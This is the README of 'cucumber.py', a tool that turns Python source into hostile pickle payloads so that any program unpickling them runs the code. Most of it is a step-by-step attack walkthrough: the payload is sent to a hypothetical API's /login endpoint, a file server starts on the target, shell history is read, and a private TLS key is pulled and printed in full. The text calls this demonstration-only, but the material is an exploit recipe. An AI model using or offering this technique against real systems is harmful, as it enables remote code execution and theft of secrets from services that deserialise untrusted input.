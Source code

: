 # cucumber.py
---

cucumber.py, ACE via Python pickle unpacking. Written by
Oelin <me.oelin@gmail.com>.

### Command

```
cucumber.py [path]
```
 
### Description

This script exploits features of Python's popular serialisation library, pickle, in such a way to cause the execution of arbitrary code by programs at run-time. Simply specify the path to a file containing Python source code. An exploitative pickle serialisation will then be written to stdout (ouput). If another Python program attempts to unpack this
serialisation, the original code given will be executed. Note that this script should only be used for demonstratory purposes. It is not a security hacking tool!

### Usage

In the following example, a script to start a HTTP web server on port 8000 is crafted into a pickle serialisation. When subject to `pickle.loads()` (i.e by a vulnerable program), the script will be executed. The script can also be found in this repository at
`./scripts/httpd.py`.

```
$ ls
httpd.py
$ ./cucumber.py httpd.py > httpd.pickle
$ ls
httpd.py httpd.pickle
```
After an exploitative serialisation has been created, it can be used to audit target programs for vulnerabilities, namely those which do not perform adequate input validation. Shown below, is a hypothetical scenareo where an attacker manages to obtain the private TLS key of a Flask web server. The API endpoint `/login` does not provide validation of input data yet at some point invokes `pickle.loads()` on said data. By sending `httpd.pickle` as input, the endpoint will readily transfers control to the malicious script. The attacker may then connect over port 8000 to read arbitrary files on the target machine, including private ones.

```
$ curl https://api.alice.com/robots.txt
User-agent: *
Disallow: /users
Allow: /login
Disallow: /login?u=*
Allow: /search

$ curl https://api.alice.com/login?u=bob
{"state": "error", "reason": "base64 decode error"}

$ user=`echo bob | base64`
$ curl https://api.alice.com/login?u=$user
{"state": "error", "reason": "unpickling failed"}

$ user=`cat httpd.pickle`
$ curl https://api.alice.com/login?u=$user

...

^C
$ curl -I http://api.alice.com:8000/
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.7
Date: Thu, 28 Mar 2019 20:31:13 GMT
Content-type: text/html; charset=utf-8
Content-Length: 1907

$ curl http://api.alice.com:8000/.bash_history
.
.
.
ls
find . | grep 'key.pem'
cd /srv/http/alice.com/backup/tls
cat key.pem
vim
cd ~
.
.
.

$ curl http://api.alice.com:8000/srv/http/alice.com/backup/tls/key.pem
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQChTcy8+upAE3Nh
IGgpscmgMJaUR4PLyFxFbKNSXhSZwCEL27FtZEInRa9jcNYb4t4y272Z1xcHC311
x/JxBcOQ0EfMQmTmQP0jvfKQNA7TI4HOIKPsLS7GREtTZveqU1R7lNYR/fzhKmfn
ZELWE4PMbXelkalbuAzXbS1wo14M7T6U3kPXTbaatyIezTWCYnXJZhkK8vIszPnv
dn2Xo2i0H5NKOz5MKeUuZ3D++BawxlSQaGKiGrwvm+WCjD9BvncluMSbjwYmgXnM
l8+a1PDNPzY3s/TVoEKErNxox3jxu4HpWf70jF5soBK5yGde9s5RaYLSHQwf8969
crwx+6krAgMBAAECggEANn6vRcVLcJxhpZWqOzPaV2ky5iOHDkjBi57ZSpGISi1T
vMrbFYcCpnvvdhv/6enqgaolUx0MpY+nMix75t04pesH5qUjq3qXSwT4NumvfHuJ
dhcm6jqVi9w0ypeF4qBGcX3mGKwDTBrkgZMo1WRAacct3dzpJ5h1li5HZL98ncbb
onZwGKcGoAR4rfT0r+ijOs499OgGq3mRTceLK+PX0qnNU30B/IhwAvuSfKN4IiRH
d88tB+ZaasO+ZMTK8aEuM0GAgIl7OJLDswWaM2+AwawNrOyUaYHNSoQ0OPYc4/l7
CaoP6/ITnv5UrGGVKZbqVEo2YgGkHEDq7nPVc/flwQKBgQDU3cEv4q6Soue4ggwl
C5DlxHAu76ffQ55sU9L1IBUPS22Mf1td35CIVH5+Dj1Z9i3iSdACdFGs2NFxUGhC
CGICP41Uf5GG8YvcQh4KKJRTWeLLCr9RY4gK5vWeQE31JlzK18MfcrCXR058e+jA
MmQO6ZwG8OrxaZ6UsywvmNOXiwKBgQDB/UuwxgBOeGqGFdCzWtWMydNkbwEUjvho
3uL8wVWso8th+Bc1SPKd9wpEF+oZT/mhtvYc38JB9Q2eAri6uYEWfPrMXTmE9tje
U6TZhJf0Qg/NmATqCzkCmXSFIBaRFBSrlfD+fniFWw+GI4gntbNjjXFwxwHF0san
sK6uFblo4QKBgQCqlVbmb+rkGeZGJvliioVAjA42ntlRgtenCfmpdF9MFW8hw0HN
1YX2qnd/vxuNR0n36JzoCp0VPd+BxiT2nc8k7BbvGxfdIx6okNeP3nsW3JZxjhhJ
OdDgo7s7aV7P0UFVUFjOj9NSN9N+0LFxrDAg/zaJHXG5qqFpmrgTII6YBwKBgEs2
rFwzyPaj1Zl7Z9nChD38Gsw8Bc00ybfPg27AfzlaoIaxrD3qtLbui7pvE0MRMRa0
W6RCVY1BODBlmb48IoLXnl4SXzTgiKFbCPWVZV09J+ds46rjAw2w9e6PzHAfuwv0
LOZfntcFwXUe3bGXz5/vvWYeot9So9dst62jmqnBAoGBAJaCzGZ+/R3ndaAWLrzY
L2wlhdVMMdQ+CkLCgomaEVHvAgnxFXPCyLMslCw55DwJTqLZUnkZ+0ME1fywHxkU
vefy74c1qNFFi6JId3zkjFnTK0b+o1JsLLE9CFUOsJfOQuHDgCDMwSadcO6cdkxp
69cRB+4sChk3oWcFv7E8/euY
-----END PRIVATE KEY-----
$
$ Alice has been pwnd!
```
